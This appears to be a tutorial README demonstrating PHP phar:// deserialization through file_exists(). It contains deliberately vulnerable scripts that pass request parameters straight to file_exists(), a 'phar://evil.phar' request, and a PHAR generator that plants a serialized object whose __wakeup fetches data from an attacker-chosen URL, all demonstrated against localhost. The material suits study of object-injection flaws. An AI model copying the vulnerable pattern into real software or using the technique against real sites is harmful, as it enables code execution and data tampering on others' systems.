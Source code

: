 
file_exists + phar:// + gadget === <3

#### ----------------


Build-in PHP web server
```
# php -S 127.0.0.1:8081
# php -l file.php # check for syntax errors
```


File `01.file_exists.php`
```
<?php

if (file_exists($_GET['img'])) {
   echo 'OK';
} else {
   echo 'Nope';
}
```

Usage
```
# http 127.0.0.1:8081/01.file_exists.php?img=phar://evil.phar -b
```
- `evil.phar` uploaded by user as image
- `evil.phar` contains PHP code like
```
class Users {
    $userdb = 'http://site.com/fetch.json'
}
```


#### ----------------


Users db:
```
# cat make_users_db.php
<?php
$user = ['admin' => [ 'role' => 'administrator']];
file_put_contents('users_db.json', json_encode($user));
# php make_users_db.php
# cat users_db.json && echo
{"admin":{"role":"administrator"}}
```

File `02.wakeup.php`
```
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];
    function __wakeup() {
        $this->users = json_decode(
            file_get_contents($this->dbfile),
            true
        );
        print_r($this->users);
    }
}
$users = new UsersCollection();
$users->__wakeup();
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php -b
Array
(
    [admin] => Array
        (
            [role] => administrator
        )

)
```


#### ----------------


File `02.wakeup.php`
```
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];

    function __wakeup() {
        // will get called
        $this->users = json_decode(file_get_contents($this->dbfile), true);
        print_r($this->users);
    }

    function __construct() {
        // will get called
    }
    function __destruct() {
        // will get called
    }
}
if (file_exists($_GET['f'])) {
    $users = new UsersCollection();
}
```

```
# http 127.0.0.1:8081/02.wakeup.php?f=users_db.json -b
```

PHAR generator `phar_generator.php`
```
<?php
class UsersCollection { }
$users = new UsersCollection();
$users->dbfile = 'http://127.0.0.1:9999/data.json';

$phar = new Phar('data.phar');
$phar->startBuffering();
$phar->addFromString('data.txt', 'data');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($users);
$phar->stopBuffering();
```

PHP-ini config must be modified to allow us create PHAR files
```
# for i in `locate cli/php.ini | grep etc`; do sed -i 's/;phar.readonly = On/phar.readonly = Off/g' $i; done
# locate cli/php.ini | grep etc | xargs grep 'phar.' | grep -vE '^;'
phar.readonly = Off
``` 

```
# php phar_generator.php
# hexdump -C data.phar
```

Generate `data.json` as well
```
# php -r '$user=["fake"=>["role"=>"dummy"]];file_put_contents("data.json",json_encode($user));'
# python -m SimpleHTTPServer 9999
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php?f=phar://data.phar -b
Array
(
    [fake] => Array
        (
            [role] => dummy
        )

)
```
